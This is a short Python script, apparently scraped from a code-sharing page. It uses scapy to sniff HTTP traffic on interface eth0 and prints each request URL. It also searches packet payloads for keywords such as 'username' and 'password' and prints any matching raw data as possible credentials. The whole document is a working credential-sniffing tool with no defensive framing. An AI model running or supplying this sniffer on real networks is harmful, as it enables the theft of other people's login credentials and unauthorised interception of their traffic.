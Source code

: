  import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return  packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load
        keywords = ["username", "user", "login", "password", "pass"]
        for keyword in keywords:
            if keyword in load:
                return load

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        url =get_url(packet)
        print("[+]HTTP Request >>" + url)

        login_info = get_login_info(packet)
        if login_info:
            print("\n\n[+] possible username/password >> " + login_info + "\n\n")

sniff("eth0")
